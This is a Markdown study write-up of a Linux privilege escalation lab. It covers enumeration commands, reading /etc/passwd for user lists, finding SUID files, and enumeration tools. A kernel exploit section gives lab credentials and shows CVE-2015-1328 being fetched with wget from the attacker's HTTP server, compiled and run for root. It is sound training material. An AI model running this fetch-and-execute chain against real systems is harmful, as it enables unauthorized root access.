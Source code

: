 ## Privilege Escalation

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

### Enumeration
Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. 

<details>
<summary>hostname</summary> 
The hostname command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. `SQL-PROD-01` for a production SQL server).
</details>

<details>
<summary>uname -a</summary> 
Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

You can aslo use `hostnameclt`
</details>

<details>
<summary>/proc/version</summary> 
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at /proc/version may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.
</details>

<details>
<summary>/etc/issue</summary> 
Systems can also be identified by looking at the /etc/issue file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.
</details>

<details>
<summary>ps</summary> 
The ps command is an effective way to see the running processes on a Linux system. Typing ps on your terminal will show processes for the current shell.

The output of the ps (Process Status) will show the following;

 -   PID: The process ID (unique to the process)
  -  TTY: Terminal type used by the user
 -   Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
 -   CMD: The command or executable running (will NOT display any command line parameter)

The “ps” command provides a few useful options.

  -  `ps -A`: View all running processes
   - `ps axjf`: View process tree 

  -  `ps aux`: The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.
</details>

<details>
<summary>env</summary> 
The env command will show environmental variables.

The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

</details>

<details>
<summary>sudo -l</summary> 
The target system may be configured to allow users to run some (or all) commands with root privileges. The sudo -l command can be used to list all commands your user can run using sudo.
</details>

<details>
<summary>ls</summary> 
One of the common commands used in Linux is probably ls.


While looking for potential privilege escalation vectors, please remember to always use the ls command with the -la parameter. The example below shows how the “secret.txt” file can easily be missed using the ls or ls -l commands.
</details>

<details>
<summary>/etc/passwd</summary> 
Reading the /etc/passwd file can be an easy way to discover users on the system.

While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.

`cat /etc/passwd | cut -d ":" -f 1`

Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.

`cat /etc/passwd | grep home`
</details>

<details>
<summary>history</summary> 
Looking at earlier commands with the history command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames. 
</details>

<details>
<summary>ifconfig</summary> 
The target system may be a pivoting point to another network. The ifconfig command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks. 

![alt text](image.png)

 This can be confirmed using the ip route command to see which network routes exist. 

 ![alt text](image-1.png)
</details>


<details>
<summary>netstat</summary> 
 

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The netstat command can be used with several different options to gather information on existing connections.


-    `netstat -a`: shows all listening ports and established connections.
 -   `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
  -  `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)



   - `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol. 



 -   `netstat -tp`: list connections with the service name and PID information.



This can also be used with the -l option to list listening ports (below)



We can see the “PID/Program name” column is empty as this process is owned by another user.

Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)


 -   `netstat -i`: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.



The netstat usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;

 -   `-a`: Display all sockets
 -   `-n`: Do not resolve names
 -   `-o`: Display timers
</details>

<details>
<summary>find</summary> 
Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.

Below are some useful examples for the “find” command.

Find files:

-    `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
-    `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
-    `find / -type d -name config`: find the directory named config under “/”
-    `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
-    `find / -perm a=x`: find executable files
-    `find /home -user frank`: find all files for user “frank” under “/home”
-    `find / -mtime 10`: find files that were modified in the last 10 days
-    `find / -atime 10`: find files that were accessed in the last 10 day
-    `find / -cmin -60`: find files changed within the last hour (60 minutes)
-    `find / -amin -60`: find files accesses within the last hour (60 minutes)
-    `find / -size 50M`: find files with a 50 MB size

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

`find / -size +100M`

The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output.

`find / -size +100M -type f 2>/dev/null`


Folders and files that can be written to or executed from:

-    `find / -writable -type d 2>/dev/null`: Find world-writeable folders
-    `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
-    `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders

The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.


`find / -perm -o x -type d 2>/dev/null` : Find world-executable folders

Find development tools and supported languages:

`find / -name perl*`

`find / -name python*`

` find / -name gcc*`

Find specific file permissions:

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.

`find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
</details>

![alt text](image-2.png)

### Automated Enumeration Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

-  LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
-  LinEnum: https://github.com/rebootuser/LinEnum
-  LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
-  Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
-  Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## Privilege Escalation: Kernel Exploits
- Username: karen
- Password: Password1

First, access to the machine over SSH

`sudo openvpn nguyenlong05.ovpn`

`ssh karen@10.10.230.143`

Once connected, run the following command to gather system details:

```
$ hostnamectl
   Static hostname: wade7363
         Icon name: computer-vm
           Chassis: vm
           Boot ID: 562b28fdff4045a1a0a1684e8d8c80c6
  Operating System: Ubuntu 14.04 LTS
            Kernel: Linux 3.13.0-24-generic
      Architecture: x86_64
```

Now we could identify the CVE for kernel exploit

![alt text](image-3.png)
```
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/C
VE-2015-1328.html)
```

Download the script https://www.exploit-db.com/exploits/37292 

Now we check the ip address by the `ifconfig` command

![alt text](image-4.png)

Starts a HTTP server using Python. By default, the server listens on port 8000

`python3 -m http.server`

On the machine, we can see it can't create or write file on target system, but we can move to /tmp directory to do it

`cd /tmp`

Now we transfer the exploit to target system `wget http://10.17.21.74:8000/37292.c` and complie it: `gcc 37292.c -o bocchitherock`, make it executable `chmod +x bocchitherock` and run the script `./bocchitherock`

![alt text](image-6.png)

![alt text](image-7.png)

## Privilege Escalation: Sudo


